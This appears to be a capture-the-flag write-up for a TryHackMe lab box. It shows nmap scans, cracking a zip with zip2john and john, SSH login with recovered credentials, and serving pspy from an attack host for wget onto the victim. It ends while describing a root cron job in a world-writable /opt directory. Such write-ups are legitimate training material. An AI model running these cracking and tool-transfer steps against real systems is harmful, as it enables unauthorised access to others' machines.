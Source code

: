 # THM SecDSM-Dec22-MiniCTF Writeup

​		22<sup>nd</sup> December 2022

 



### Description:

This machine...

### Difficulty:

`easy`

# Hosts File
```
sudo nano /etc/hosts
```
add a line with the remote IP and the dns entry

```
<IP> secdsm.thm
```

# Enumeration

Start with basic and advanced NMAP scans on the box.
```
nmap -v secdsm.thm
```
![image](https://user-images.githubusercontent.com/43767555/203445905-4d04de66-d01c-48f0-9407-229137a38694.png)
```
nmap -p 22,80 -A -sC -sV -v secdsm.thm
```
![image],(https://user-images.githubusercontent.com/43767555/203445915-0b21ff59-a63c-4ecb-8c61-27616b5fb5ab.png)

HTTP and SSH are open. HTTP is always a pretty interesting place to start.

After spending some time on the site, a lot of links don't go anywhere but one does go to a broken link which is very interesting.

![image](https://user-images.githubusercontent.com/43767555/203446098-4fd83d1b-62b0-48ab-aa63-518c8a3758bf.png)
![image](https://user-images.githubusercontent.com/43767555/203446104-ca0609f7-04f1-4e04-a431-314c465fe0e6.png)

I checked the link in burp with the same results.

There are two routes here.
1. Edit the hosts file to match the url in the broken link
1. Edit the link to point to the machiine's known IP.

![image](https://user-images.githubusercontent.com/43767555/203446466-85f0dc87-dd5d-4d88-81d1-b8de05635a98.png)

This got me a download for the file.

![image](https://user-images.githubusercontent.com/43767555/203446486-7b086bfa-12b4-49fa-822a-1b8f81d5d705.png)

# Foothold

The file is encrypted but it seems to hold something called backup.txt.

![image](https://user-images.githubusercontent.com/43767555/203446633-38e82173-bffe-4005-8558-a5e61838193f.png)
![image](https://user-images.githubusercontent.com/43767555/203446679-2d9c099d-892a-4ede-80be-2de595097022.png)

This command will only work out of the box on later versions of Kali. You can download or search for this on your machine as well.
```
zip2john temp.zip > hash
```
![image](https://user-images.githubusercontent.com/43767555/203447619-fba66001-9dea-459e-b14c-ff1b3813db41.png)

Next is to crack this hash with john.
```
john hash --wordlist=/usr/share/wordlist/rockyou.txt
```

![image](https://user-images.githubusercontent.com/43767555/203447633-1cc3421b-1cd5-427a-8e26-46856d178fff.png)

This crack was succesful!
```
unzip temp.zip
<password>
```

![image](https://user-images.githubusercontent.com/43767555/203447877-2fb0f021-cce0-4554-bd42-55ef4394cd2f.png)
![image](https://user-images.githubusercontent.com/43767555/203447889-209d36d1-c1a6-4e88-8e9f-892d19423b55.png)

This file contained what looks like user creds that we can try on the open SSH port.

Back on the Attack machine, attempt to login to the.
```
ssh kinder@secdsm.thm
<password>
```

![image](https://user-images.githubusercontent.com/43767555/203448008-5ecb6140-d47d-4a73-84c6-7ffdeab0f424.png)

Here we can see the user.txt file, first flag down!

![image](https://user-images.githubusercontent.com/43767555/203448073-aaf7cf10-878b-428f-9e19-0df367aa9904.png)

# Privilege Escalation

The next part comes with Linux Privesc enumeration but we need to look for Cron Jobs or follow the proccesses on the machine to see what's happeneing behind the scenes.

On the attackbox get pspy downloaded from github.
```
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s
```

From here we can host a temp pthon webservber to move it onto the victim machine.
```
sudo python3 -m http.server 80
```

![image](https://user-images.githubusercontent.com/43767555/203450435-ac957f3b-9332-422e-b93d-2fefde30d730.png)

Download it onto the victim machine.
```
wget http://192.168.59.131/pspy64s && chmod 777 pspy64s
```

![image](https://user-images.githubusercontent.com/43767555/203450549-725b9440-c1fe-4192-888b-ea5ce0a8cbda.png)
![image](https://user-images.githubusercontent.com/43767555/203450555-0e39858b-fbb9-4766-89f5-fe40d1b6c38f.png)

This succesfully exposed a root cron job that we couldn't see from the public /etc/crontab file.

![image](https://user-images.githubusercontent.com/43767555/203450599-59ec8156-ef63-4932-9c74-2ac168593ada.png)

This shows some interest to this globally writeable directory inside of /opt/

![image](https://user-images.githubusercontent.com/43767555/203450667-94dad0e8-3cbb-4ffc-a3e8-a6d7ff62b0c6.png)

updog.py is not globally writeable though.

I wonder what updog.py is?
```
whatis updog.py
```

![image](https://user-images.githubusercontent.com/43767555/203450755-e9cbb752-7951-4cdc-80f9-095713add631.png)

Oh wait, wrong command!

![image](https://user-images.githubusercontent.com/43767555/203450769-ef6eb46f-ea13-4040-83a8-2f2791c97cab.png)

It looks like this script is checking if port 80 is online on localhost. If it isn't then it restarts the apache service.
Pretty simple but on it's own not exploitable.
What is exploitable is the writeable directory the file lives in.

